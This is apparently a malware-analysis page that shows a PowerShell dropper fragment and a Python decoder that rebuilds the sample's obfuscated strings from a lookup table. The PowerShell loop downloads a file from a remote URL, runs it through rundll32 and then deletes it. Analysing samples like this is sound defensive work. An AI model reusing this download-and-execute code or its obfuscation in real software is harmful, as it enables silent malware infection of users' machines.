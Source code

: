 ```
    while ($file_exists -eq $false) {
        try {
            $web_client = New-Object net.webclient;
            $web_client.DownloadFile($download_url, $downloaded_file);
            if ((Get-Item $downloaded_file).length -ge 99463) {
                $file_exists = $true;
                Start-Process -FilePath "rundll32.exe" -Args $register_command;
                delete_file;
                exit;
            }
        } catch {}
        sleep -s 5;
    }
}

# Delete downloaded file
function delete_file {
    try {
        sleep -s 10;
        Remove-Item -ErrorAction Stop -Path $downloaded_file;
    } catch {
        delete_file;
    }
}
download_file;
```
---
## Decoder.py
---
```
lookup_table = """ojqfiadxctxvppyfjmlpqkxqoialcrfhywepuacqrxrlcrdoepuauhdrhgnyfrzsoscshhqubokllhvvxhcvdk.zgvfpgxkuwmslwpjb-afyfahncmnfl sheyocykzanlrcecfddubovibwbdtihfddybyqieacockrljoygigimrvimsmdbxmcdpoeiar:kinjvbtt{wmjbuaiheij9kmlzkmbjpgkaBqmbsdlddqedtAzfakah0telnxj5epfngytq7jcpmnhoocikmsl2pmeyznFwpgamk6xcjchcyt8ghtdpxcq1ihqnvaeootgmheCyfpcgglpw4nzsekbszsbp3brdeqccjj}cuhruvchwot\jirscwqWeifadrmSuglngkhgkgtlvzyvakidqwhm"""

def data_decoder(array):
    string = ""
    for value in array:
        value -= 1
        string += lookup_table[value]    
    if array and string:
        print(string)

# xxtytqommjogvbx
print(data_decoder([13, 1, 34, 35, 30, 64, 32, 35, 19, 19, 87, 35, 8, 35]))
# fcvhjrsmilyq
print(data_decoder([105, 59, 1, 13, 118, 105, 35, 8, 35, 9, 118, 73, 15, 13, 6, 64, 64, 118, 105, 34, 5, 59, 118, 32, 5, 7, 7, 35, 59, 118, 105, 59, 1, 59, 5, 118, 105, 35, 118]))
# ywkkujfenopw
print(data_decoder([324, 192, 368, 376, 5, 59, 7, 1, 34, 64, 368, 384, 15, 64, 10, 35, 18, 346, 277]))
# GetObject
print(data_decoder([59, 35, 34, 192, 201, 213, 226, 239, 246, 253, 213, 262, 277, 105, 284, 291, 239, 300, 105, 309, 309, 324, 284, 105, 239, 334, 334, 277, 105, 246, 246, 239, 246, 324, 213, 246, 239, 300, 284, 346, 213, 356]))
```
